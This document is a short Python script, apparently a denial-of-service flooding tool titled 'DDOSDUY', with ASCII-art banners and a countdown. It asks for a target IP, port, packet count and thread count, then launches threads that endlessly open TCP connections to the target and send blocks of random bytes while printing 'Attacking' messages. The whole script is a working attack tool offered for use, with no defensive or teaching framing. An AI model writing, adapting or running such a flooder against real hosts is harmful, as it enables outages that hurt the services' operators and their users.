 #!usr/bin/python3

import random

import threading

import socket

import os

import time

from termcolor import colored

os.system('cls')

print(colored(r"""

DDD  DDD   OOO   SSS  DDD  U   U Y   Y 

D  D D  D O   O S     D  D U   U  Y Y  

D  D D  D O   O  SSS  D  D U   U   Y   

D  D D  D O   O     S D  D U   U   Y   

DDD  DDD   OOO  SSSS  DDD   UUU    Y   

                                         Created by DUY""", 'red'))

print(colored("\n============================================================================================\n", 'green'))

ip = str(input(colored("[+] IP: ",'green')))

port = int(input(colored("[+] Port: ",'green')))

packet = int(input(colored("[+] Packets: ",'green')))

thread = int(input(colored("[+] Threads: ",'green')))

time.sleep(1.5)

os.system('cls')

print(colored(r"""

 / _ \| | | |           | |  (_)                  

/ /_\ \ |_| |_ __ _  ___| | ___ _ __   __ _       

|  _  | __| __/ _` |/ __| |/ / | '_ \ / _` |      

| | | | |_| || (_| | (__|   <| | | | | (_| |_ _ _ 

\_| |_/\__|\__\__,_|\___|_|\_\_|_| |_|\__, (_|_|_)

                                       __/ |      

                                      |___/    """,'green'))

print(colored("\n########################################################################",'red'))

time.sleep(2)

print(colored("\n[+] Start......",'green'))

time.sleep(1)

print(colored("\n3",'green'))

time.sleep(1)

print(colored("\n2",'green'))

time.sleep(1)

print(colored("\n1",'green'))

time.sleep(1)

os.system('cls')

def syn():

    hevin = random._urandom(900)

    bb = int(0)

    while True:

        try:

            h = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

            h.connect((ip,port))

            h.send(hevin)

            for i in range(packet):

                h.send(hevin)

            bb += 1

            print(colored('[+] Attacking '+ip +'>>>Sent: '+str(bb), 'red'))

        except KeyboardInterrupt:

            h.close()

            print(colored("[+++] DONE !!!!", 'green'))

            pass

for b in range(thread):

    thread = threading.Thread(target=syn)

    thread.start()
